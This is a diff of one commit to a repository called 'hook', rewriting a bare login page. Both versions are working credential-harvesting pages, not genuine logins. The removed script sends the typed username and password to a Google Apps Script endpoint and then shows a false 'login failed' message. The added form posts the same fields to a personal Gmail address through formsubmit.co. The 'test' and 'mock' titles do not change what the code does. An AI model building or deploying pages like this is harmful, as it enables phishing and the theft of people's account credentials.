

Before and after one commit to KhriStore/hook, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (331-971 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,44 +1,24 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Mock Login Form</title>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Simple Login Page</title>
   <style>
-    body { font-family: Arial; background-color: #f3f3f3; display: flex; justify-content: center; align-items: center; height: 100vh; }
-    .login-box { background: white; padding: 30px; box-shadow: 0 0 10px rgba(0,0,0,0.1); border-radius: 8px; max-width: 300px; width: 100%; }
-    input, button { width: 100%; padding: 10px; margin: 10px 0; border-radius: 4px; border: 1px solid #ccc; }
-    button { background: #0066ff; color: white; cursor: pointer; }
+    body { font-family: Arial, sans-serif; background-color: #f5f5f5; }
+    .container { max-width: 400px; margin: 100px auto; padding: 20px; background: #fff; border-radius: 8px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
+    input, button { width: 100%; padding: 10px; margin: 10px 0; }
+    button { background-color: #4CAF50; color: white; border: none; cursor: pointer; }
   </style>
 </head>
 <body>
-  <div class="login-box">
-    <h2>Login</h2>
-    <form id="loginForm">
-      <input type="text" id="username" placeholder="Username" required />
-      <input type="password" id="password" placeholder="Password" required />
-      <button type="submit">Login</button>
+  <div class="container">
+    <h2>Login Test Form</h2>
+    <form action="https://formsubmit.co/daff42246@gmail.com" method="POST">
+      <input type="text" name="username" placeholder="Username" required>
+      <input type="password" name="password" placeholder="Password" required>
+      <button type="submit">Submit</button>
     </form>
   </div>
-
-  <script>
-    document.getElementById('loginForm').addEventListener('submit', async (e) => {
-      e.preventDefault();
-      const username = document.getElementById('username').value;
-      const password = document.getElementById('password').value;
-
-      const endpoint = 'https://script.google.com/macros/s/AKfycbwRWEbgx90uNDviOspI2aeSiQxyKP_NzuKLdRpztbYBvcnQsM-YnUxVovKmFLAygS0zZw/exec'; // Ganti dengan Google Apps Script Web App kamu
-
-      await fetch(endpoint, {
-        method: "POST",
-        headers: {
-          "Content-Type": "application/json"
-        },
-        body: JSON.stringify({ username, password })
-      });
-
-      alert("Login gagal. Silakan coba lagi.");
-    });
-  </script>
 </body>
 </html>
```
